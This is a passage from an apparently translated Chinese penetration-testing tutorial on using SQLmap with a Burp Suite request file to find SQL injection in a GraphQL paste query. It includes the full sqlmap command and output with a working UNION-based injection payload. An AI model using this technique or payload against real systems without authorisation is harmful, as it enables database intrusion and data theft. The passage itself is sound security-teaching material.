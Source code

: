 在这个示例中，SQLmap 会用它的 SQLi 负载数据库中的条目替换星号。

SQLmap 可以从文件读取完整的 HTTP 请求。我们可以将任何 HTTP 请求输入到 SQLmap 中，SQLmap 会读取查询并用它来执行 SQL。图 8-10 显示了如何在 Burp Suite 中将请求保存到文件。右键点击请求窗口中的任何位置，选择 **复制到文件**。将文件命名为 *request.txt* 并保存。

![](img/f08010.png)

图 8-10：将 HTTP 请求从 Burp Suite 保存到文件

接下来，通过使用 `-r`（请求）参数来运行 SQLmap，指定文件。将目标数据库引擎参数（`--dbms`）设置为 `sqlite`。通过提供数据库引擎名称，我们将执行的测试数量缩小到相关的子集，从而加快注入测试的过程。清单 8-3 显示了如何运行命令。

```
# **sqlmap -r request.txt —dbms=sqlite —tables**

[14:30:53] [INFO] parsing HTTP request from 'request.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] **Y**

JSON data found in POST body. Do you want to process it? [Y/n/q] **n**

[14:30:55] [INFO] testing connection to the target URL
it is recommended to perform only basic UNION tests if there is not at least one
other (potential) technique found. Do you want to reduce the number of requests? [Y/n] **Y**

[14:30:57] [INFO] testing 'Generic UNION query (NULL) — 1 to 10 columns'
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the
others (if any)? [y/N] **N**

Parameter: #1* ((custom) POST)
    Type: UNION query
    Title: Generic UNION query (NULL) — 1 column
    Payload: {"query":"query getPastes {\n        pastes(filter:\"test' UNION ALL
SELECT CHAR(113,122,98,122,113)||CHAR(102,90,76,111,106,97,117,117,105,113,101,121,
72,117,112,87,114,99,114,65,99,86,84,120,72,69,115,122,120,77,121,119,122,103,108,
116,87,100,114,82)||CHAR(113,122,98,98,113),NULL,NULL,NULL,NULL,NULL,NULL,
NULL—bGJM\") {\n          id\n          title\n          content\n
ipAddr\n          userAgent\n          owner {\n            name\n
}\n          }\n        }"}
```
